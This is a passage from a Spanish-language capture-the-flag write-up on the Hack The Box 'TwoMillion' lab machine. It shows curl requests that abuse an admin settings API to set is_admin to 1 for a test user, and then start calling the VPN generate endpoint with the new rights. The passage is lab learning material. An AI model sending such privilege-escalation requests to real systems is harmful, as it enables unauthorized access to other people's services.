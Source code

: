 ```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" --data '{"email":"test@test.com","is_admin": true}' | jq
```

![img](/assets/img/post/twomillion/907d3492-ca0c-42d7-b35a-83f172351384.png)

Nos indica que el valor del parametro ```is_admin``` debe tener un valor de ```0 o 1```

```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" --data '{"email":"test@test.com","is_admin": 1}' | j
```

![img](/assets/img/post/twomillion/277d1fb1-039c-4324-8cb3-e573c10b085d.png)

Hemos conseguido hacer que el usuario ```test``` creado anteriormente sea ```administrador``` , si lo deseamos podemos hacer la petición a ```/admin/auth``` para comprobar si el usuario es administrador.

![img](/assets/img/post/twomillion/0212b04c-2eb8-416f-bb16-9568c345ec9e.png)

## **Explotación**

Vamos a volver a ```/admin/vpn/generate``` , ya que ahora tenemos suficientes permisos

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" | jq
```

![img](/assets/img/post/twomillion/0c340bbc-150c-45a1-af5d-02d33a7f7f8c.png)
